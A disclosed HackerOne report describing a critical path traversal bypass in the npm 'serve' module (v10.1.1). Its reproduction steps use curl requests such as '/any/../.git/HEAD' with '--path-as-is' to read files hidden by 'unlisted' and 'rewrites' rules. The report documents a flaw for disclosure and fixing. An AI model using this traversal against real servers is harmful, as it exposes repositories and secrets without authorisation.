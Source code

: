 # [serve] Access unlisted internal files/folders revealing sensitive information

## Report Details
- **Report ID**: 486933
- **URL**: https://hackerone.com/reports/486933
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-01-27T15:55:48.066Z
- **Disclosed**: 2019-02-07T21:22:35.524Z

## Reporter
- **Username**: skyn3t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report sensitive information disclosure in serve.
Bypass of #308721 in ways.

# Module

**module name:** serve
**version:** 10.1.1
**npm page:** `https://www.npmjs.com/package/serve

## Module Description

Assuming you would like to serve a static site, single page application or just a static file (no matter if on your device or on the local network), this package is just the right choice for you.

It behaves exactly like static deployments on Now, so it's perfect for developing your static project. Then, when it's time to push it into production, you deploy it.

Furthermore, it provides a neat interface for listing the directory's contents

## Module Stats

**weekly downloads**
138,377

# Vulnerability

## Vulnerability Description

The `serve` modules allows directory browsing and to serve static files through the browser.
The config options `unlisted` and `rewrites` can be used to tell the module which file or directory are forbidden and should not be served. 
refer: https://github.com/zeit/serve-handler/issues/48
This rule can be bypassed using the technique below which can lead to sensitive information disclosure (An interesting example: https://smitka.me/).

## Steps To Reproduce:

- Install `serve`
```
$ npm install -g serve
```

- Inside a project directory, initialise `git` and create `404.html`.
```
$ git init
$ echo "404 Not Found" > 404.html
$ echo "secret text" > secret
```

- Add rule to ignore `.git` folder in `serve.json`
```json
{
    "rewrites": [
        { "source": ".git/**", "destination": "/404.html" },
        { "source": "secret", "destination": "/404.html" }
      ],
    "unlisted": [
      ".git"
    ]
  }
```

- Start `serve` in current directory.

```
$ serve
INFO: Discovered configuration in `serve.json`
   ┌───────────────────────────────────────────────┐
   │                                               │
   │   Serving!                                    │
   │                                               │
   │   - Local:            http://localhost:5000   │
   │   - On Your Network:  http://127.0.1.1:5000   │
   │                                               │
   │   Copied local address to clipboard!          │
   │                                               │
   └───────────────────────────────────────────────┘
```

- Now, current directory will be served by `serve` with the exception of folder `.git` and file `secret`.
- If we try to curl `.git`or `secret` we get a Not Found error
```
$ curl http://localhost:5000/.git --path-as-is     
404 Not Found
$ curl http://localhost:5000/secret --path-as-is
404 Not Found
```

- Although if we request any other url and then navigate back to the forbidden files/folders using `../` scheme, we are able to extract it's contents successfully.
```
$ curl http://localhost:5000/any/../.git/HEAD --path-as-is
ref: refs/heads/master
$ curl http://localhost:5000/any/../secret --path-as-is   
secret text
```


## Supporting Material/References:

- Ubuntu 16.04
- node v11.3.0
- npm 6.7.0

# Wrap up



- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

The essentially bypasses the `unlisted` and `rewrites` files/folders feature and allows an attacker to read from a directory/file that the victim has not allowed access to.

**References:**
- https://github.com/zeit/serve-handler#options
- https://github.com/zeit/serve-handler/issues/48

## Attachments
No attachments
